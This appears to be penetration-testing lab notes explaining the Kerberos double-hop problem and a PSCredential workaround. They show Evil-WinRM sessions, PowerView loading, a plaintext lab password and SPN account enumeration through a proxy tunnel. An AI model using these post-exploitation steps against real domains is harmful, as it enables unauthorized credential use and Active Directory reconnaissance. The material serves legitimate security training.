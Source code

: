 The Kerberos "double hop" problem arises in scenarios where authentication is required across multiple servers or services. For example, when a user logs into Server A and then Server A needs to access Server B on behalf of the user, traditional Kerberos authentication fails because the user's credentials cannot be passed from Server A to Server B. This problem is typically encountered in web applications, remote desktop services, and distributed computing environments.

## **Workaround #1: PSCredential Object**

* `*Evil-WinRM* PS C:\Users\backupadm\Documents> import-module .\PowerView.ps1`
* `get-domainuser -spn` this will give us error because we cannot pass our authentication on to the Domain Controller to query for the SPN account

If we check with `klist`, we see that we only have a cached Kerberos ticket for our current server.

```
*Evil-WinRM* PS C:\Users\backupadm\Documents> klist

Current LogonId is 0:0x57f8a

Cached Tickets: (1)

#0> Client: backupadm @ INLANEFREIGHT.LOCAL

    Server: academy-aen-ms0$ @
    KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
    Ticket Flags 0xa10000 -> renewable pre_authent name_canonicalize
    Start Time: 6/28/2022 7:31:53 (local)
    End Time:   6/28/2022 7:46:53 (local)
    Renew Time: 7/5/2022 7:31:18 (local)
    Session Key Type: AES-256-CTS-HMAC-SHA1-96
    Cache Flags: 0x4 -> S4U
    Kdc Called: DC01.INLANEFREIGHT.LOCAL
```

So now, let's set up a PSCredential object and try again. First, we set up our authentication.

* `*Evil-WinRM* PS C:\Users\backupadm\Documents>$SecPassword = ConvertTo-SecureString '!qazXSW@' -AsPlainText -Force`
* `Evil-WinRM* PS C:\Users\backupadm\Documents> **$**Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\backupadm', $SecPassword)`

Now when we try to query for the SPN account while passing our credential along, our cmd will be successfull

```
*Evil-WinRM* PS C:\Users\backupadm\Documents> get-domainuser -spn -credential $Cred | select samaccountname

|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK
|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK

samaccountname
--------------
azureconnect
backupjob
krbtgt
mssqlsvc
sqltest
```

